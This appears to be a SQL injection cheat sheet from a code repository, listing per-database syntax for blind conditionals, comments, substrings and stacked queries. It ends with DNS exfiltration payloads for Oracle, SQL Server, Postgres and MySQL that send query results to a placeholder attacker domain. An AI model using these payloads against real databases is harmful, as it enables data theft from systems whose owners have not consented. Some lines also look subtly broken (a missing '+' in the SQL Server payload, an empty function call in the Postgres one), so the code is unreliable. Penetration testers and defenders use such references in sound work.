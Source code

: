 # SQL Injection
## Useful Wins
- `SELECT * FROM `
## Conditionals
**Useful for blind enumeration of DB contents**
- Oracle - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE> END FROM dual`
- Microsoft - `IF (<CONDITION>) <TRUE> [<FALSE>]`
- Microsoft / Postgres - `SELECT CASE WHEN (<CONDITION>) THEN <TRUE> ELSE <FALSE>`
- MySql / MariaDb - `SELECT IF (<CONDITION>, <TRUE>, <FALSE>)`

## Comments
- Oracle / Microsoft / Postgres - `--COMMENT` `/*COMMENT*/`
- MySQL / MariaDb - `#COMMENT` `-- COMMENT` `/*COMMENT*/`

## Substring
- Oracle - `SUBSTR('foobar', 4, 2)`
- Microsoft / Postgres / MySql / MariaDb - `SUBSTRING('foobar', 4, 2)`

## Stacked Queries
- Oracle - None
- Microsoft / Postgres / MySql / MariaDb - `<QUERY1>;<QUERY2>`

## DNS with Data Exfiltration
- Oracle - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||<QUERY>||'.<DOMAIN>/"> %remote;]>'),'/l') FROM dual`
- Microsoft - `declare @p varchar(1024);set @p=(<QUERY>);exec('master..xp_dirtree "//'+@p'.<DOMAIN>/a"')`
- Postgres - `create OR replace function f() returns void as $$;declare c text; declare p text; begin; SELECT into p (<QUERY>); c := 'copy (SELECT '''') to program ''nslookup '||p||'.<DOMAIN>''';execute c;END;$$ language plpgsql security definer; SELECT ();`
- MySql / MariaDb (Windows only) - `<QUERY> INTO OUTFILE '\\\\<DOMAIN>\a'`